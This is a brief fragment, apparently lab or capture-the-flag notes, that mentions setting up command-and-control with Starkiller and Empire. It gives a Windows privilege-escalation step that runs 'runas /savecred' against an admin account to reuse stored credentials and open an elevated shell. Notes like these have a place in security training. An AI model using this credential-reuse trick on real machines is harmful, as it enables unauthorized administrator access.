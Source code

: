 - Using Starkiller and Empire to setup a CnC

To Get root,
connect to rdp
open a cmd and type:

runas /savecred /user:admin-petersj /profile cmd.exe -> we'll get a root shell
